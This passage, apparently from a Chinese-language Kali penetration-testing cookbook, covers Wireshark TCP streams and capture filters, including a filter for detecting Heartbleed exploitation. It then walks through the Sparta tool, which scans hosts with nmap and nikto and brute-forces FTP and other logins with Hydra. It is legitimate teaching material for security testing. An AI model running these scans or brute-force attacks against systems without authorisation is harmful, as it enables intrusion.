6.  我们看到过滤器已经应用：


7.  有时，我们可能希望在 TCP 级别查看两台主机之间发生的通信。遵循 TCP 流是一项功能，它允许我们查看从 a 到 B 和 B 到 a 的所有流量。让我们尝试使用它。从菜单中选择统计信息，然后单击对话：


8.  在打开的窗口中，我们切换到 TCP 选项卡。在这里，我们可以看到 IP 和它们之间传输的数据包的列表。要查看 TCP 流，我们选择其中一个 IP 并单击 Follow stream：


9.  在这里，我们可以看到通过 TCP 传输的数据：


10.  捕获过滤器用于捕获特定于所应用过滤器的流量；例如，如果我们只想从特定主机捕获数据，则使用主机`x.x.x.x`。

11.  要应用捕获过滤器，请单击捕获选项，在打开的新窗口中，我们将看到一个名为“捕获选项”的字段。在这里，我们可以输入我们的过滤器：


12.  假设我们正在调查网络中的心脏出血漏洞。我们可以使用以下捕获过滤器来确定是否利用了 HeartBleed：

```
 tcp src port 443 and (tcp[((tcp[12] & 0xF0) >> 4 ) * 4] = 0x18)
        and (tcp[((tcp[12] & 0xF0) >> 4 ) * 4 + 1] = 0x03) and
        (tcp[((tcp[12] & 0xF0) >> 4 ) * 4 + 2] < 0x04) and
        ((ip[2:2] - 4 * (ip[0] & 0x0F) - 4 * ((tcp[12] & 0xF0) >> 4) > 69))
```

# 还有更多。。。

以下是一些有用的链接，它们包含 Wireshark 中所有过滤器的列表。在执行深入的数据包分析时，这些过滤器可以派上用场：

*   [https://wiki.wireshark.org/CaptureFilters](https://wiki.wireshark.org/CaptureFilters)
*   [https://wiki.wireshark.org/FrontPage](https://wiki.wireshark.org/FrontPage)

# 这是斯巴达！

Sparta 是一个基于 GUI 的 Python 工具，对于基础设施测试非常有用。它有助于扫描和枚举。我们甚至可以在这里导入 nmap 输出。Sparta 非常易于使用，可以自动收集大量信息，并使过程更加简单。在本食谱中，您将学习如何使用该工具在网络上执行各种扫描。

# 准备

Kali 已经预装了这个工具，所以让我们看看如何运行它！

# 怎么做。。。

要了解更多有关斯巴达的信息，请按照给定的步骤进行操作：

1.  我们首先键入`Sparta`命令：


我们将看到工具打开。

2.  现在，我们单击菜单窗格左侧以添加主机：



3.  在窗口中，我们输入要扫描的 IP 范围。
4.  单击 Add to scope 后，它会自动启动运行 nmap、nikto 等的基本过程：


5.  我们可以在左侧窗格中看到发现的主机：


6.  在右侧的“服务”选项卡中，我们将看到打开的端口及其正在运行的服务：


7.  切换到 Nikto 选项卡，我们将看到所选主机的 Nikto 输出：


8.  我们还可以看到主机上`80`端口运行的页面截图：



9.  对于 FTP 等服务，它会自动运行 Hydra 等工具来强制登录：



10.  在左侧窗格中，切换到“工具”选项卡时，我们可以看到每个主机的工具输出。
11.  我们还可以通过切换到“暴力”选项卡来执行自定义暴力攻击：



12.  要运行完整端口扫描或 unicorn 扫描，我们可以右键单击主机。转到 Portscan 菜单，选择要在主机上运行的扫描类型：

